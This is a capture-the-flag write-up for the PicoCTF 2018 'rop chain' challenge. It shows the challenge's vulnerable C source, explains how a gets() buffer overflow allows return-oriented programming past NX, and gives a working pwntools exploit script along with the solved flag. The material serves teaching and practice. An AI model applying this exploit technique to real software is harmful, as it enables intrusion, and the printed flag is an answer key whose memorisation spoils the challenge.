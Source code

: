 ```yaml
---
layout: post
title: Binary Exploitation - rop chain (350) - PicoCTF 2018
categories: [general, CTFs, Binary Exploitation]
tags: [CTFs, picoCTF2018, Binary Exploitation]
comments: true
---
```


Running the binary gives us the following output :
```text
Enter your input>
```
Out of an instinct I checked right away for either a buffer overflow or a format string vulnerability. 
```text
Enter your input> AAAAAAAAAAAAAAAAAAAAAAAAAAa
Segmentation fault (core dumped)
```
Okay, so it turns out there is a BoF (no format string).
Let's check for protections with `checksec.sh`:
```text
Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Apparently there is a NX bit enabled, meaning we cannot use BoF to write shell-code on the stack and execute it. However, as the name of the challenge implies, we can use the **ROP** (Return Orientated Programming) technique to overcome this protection. 
ROP technique allows an attacker who has control of the call stack to hijack program control flow and then executes carefully chosen machine instruction sequences that are already present in the machine's memory, called "gadgets", as each gadget ends with a return instruction.
* You can read more about ROP in this article for CTF101 - [ROP - CTF101](https://ctf101.org/binary-exploitation/return-oriented-programming/).

Anyway, We're going to need to investigate further, and examine the source code is a good place to start.
* Note that in this write-up I'll use the `rop.c` file that was given for simplicity purposes. I do recommend to try use GDB or and other disassembler to analyze the binary before taking a look at the source code.

## Examine The Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFSIZE 16

bool win1 = false;
bool win2 = false;


void win_function1() {
  win1 = true;
}

void win_function2(unsigned int arg_check1) {
  if (win1 && arg_check1 == 0xBAAAAAAD) {
    win2 = true;
  }
  else if (win1) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void flag(unsigned int arg_check2) {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  
  if (win1 && win2 && arg_check2 == 0xDEADBAAD) {
    printf("%s", flag);
    return;
  }
  else if (win1 && win2) {
    printf("Incorrect Argument. Remember, you can call other functions in between each win function!\n");
  }
  else if (win1 || win2) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```
Looking at `vuln` we can immediately see that the BoF is caused due to the usage of `gets` function, which doesn't have any length check.
The most interesting function is probably `flag`, which in the beginning of it we can see that the flag is been extracted from `flag.txt`, but it'll be printed out only if the following is true:

|Conditions|
|---|
|win1 == True / 1|
|win2 == True / 1|
|arg_check2 == `0xDEADBAAD`|

So in order to fulfill the first condition we need to jump to `win1_function`, and in order to fulfill the second condition we need to jump to `win2_function`passing the value `0xBAAAAAAD` as its argument, and that's only after `win1_function` was executed.
After that we are going to need to jump right to `flag` and pass it the value `0xDEADBAAD` as an argument. 

To accomplish all of that we can use the ROP technique.
The fact we have a BoF vulnerability allows us to overwrite the return address and what's beyond that to chain several ROP gadgets together (in this case our "gadgets" are`win1/win2_function` and `flag`) resulting in several fake function stack frames. That would cause the program to jump from one function to another in the right order so all conditions are fulfilled.
 
Based on what said above, we want the stack to look like the following when returning from `vuln`:

|Before|
|---|
|**Lower Memory Addresses**|
|vuln's return address|
|something|
|something|
|something|
|something|
|**Higher Memory Addresses**|

** **

|After|
|---|
|**Lower Memory Addresses**|
|win1_function's address|
|win2_function's address|
|flag's address|
|0xBAAAAAAD|
|0xDEADBAAD|
|**Higher Memory Addresses**|

# The Script
```python
from pwn import *

win_function1 = 0x080485cb
win_function2 = 0x080485d8
flag_function = 0x0804862b


def handle_logic():
	r.recvuntil(">")
	payload = "A"*28
	payload += p32(win_function1)
	payload += p32(win_function2)
	payload += p32(flag_function)
	payload += p32(int("0xbaaaaaad", 16))
	payload += p32(int("0xdeadbaad", 16))
	r.sendline(payload)

if __name__ == "__main__":
	r = process(['/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47/rop'])
	handle_logic()
	r.interactive()
```

Flag - `picoCTF{rOp_aInT_5o_h4Rd_R1gHt_9853cfde}`
